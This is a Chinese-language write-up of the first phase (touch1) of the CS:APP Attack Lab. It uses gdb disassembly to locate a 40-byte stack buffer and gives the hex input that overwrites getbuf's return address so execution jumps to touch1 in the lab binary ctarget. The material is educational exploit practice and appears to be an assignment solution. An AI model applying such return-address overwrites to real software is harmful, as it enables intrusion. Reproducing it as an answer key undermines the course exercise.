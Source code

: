 1. touch1()

ctarget的流程如下：

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

其中：

```c
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

需要通过代码注入攻击使得 getbuf() 运行结束后返回到 touch1() 函数：

```C
void touch1() {
    vlevel = 1;
    printf("Touch!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

利用`gdb` 调试`ctarget`找到我们需要的信息

```
gdb ctarget
```

首先反汇编test():

```
(gdb)  disas test
Dump of assembler code for function test:
   0x0000000000401968 <+0>:		sub    $0x8,%rsp
   0x000000000040196c <+4>:		mov    $0x0,%eax
   0x0000000000401971 <+9>:		callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:	mov    %eax,%edx
   0x0000000000401978 <+16>:	mov    $0x403188,%esi
   0x000000000040197d <+21>:	mov    $0x1,%edi
   0x0000000000401982 <+26>:	mov    $0x0,%eax
   0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:	add    $0x8,%rsp
   0x0000000000401990 <+40>:	retq  
```

然后反汇编getbuf():

```
(gdb) > disas getbuf
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
```

在getbuf的首句打上断点并运行：

```
(gdb) b *0x4017a8
Breakpoint 1 at 0x4017a8: file buf.c, line 12.

(gdb) run -q
Starting program: /mnt/projects/CSAPP-Assignments/my-solution/3-Attack-Lab/target1/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12
12	buf.c: No such file or directory.
(gdb) disas
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:		sub    $0x28,%rsp
   0x00000000004017ac <+4>:		mov    %rsp,%rdi
   0x00000000004017af <+7>:		callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
End of assembler dump.
```

此时执行到 ==> 处， 此时查看rsp指向内存所存储的值：

```
(gdb) print /x *(int*) $rsp
$1 = 0x401976
```

而0x401976是test()函数中执行完getbuf()下一个语句的地址，因此通过代码注入将这个位置的内容改成touch1()的地址。



从第一行`sub $0x28, %rsp`中显示，在栈上为`buf`提供了0x28也就是40个字节的空间,反汇编`touch1`函数，找到`touch1`函数的起始地址:

```
(gdb)> disas touch1
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
```

从第一行中看出，`touch1`的返回地址是`0x00000000004017c0`

输入字符，首先填充栈，可以使用任意字符，这里我使用的是16进制的0x00填充，然后填充`touch1`地址，最后得到是如下结果：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

大部分电脑应该都是`little-endian`字节序，即低位在低地址，高位在高地址。

![visual](/home/lalawang/visual.png)

```
> ./hex2raw -i solutions/level1.txt | ./ctarget -q
```

![image-20210506212326205](/home/lalawang/.config/Typora/typora-user-images/image-20210506212326205.png)

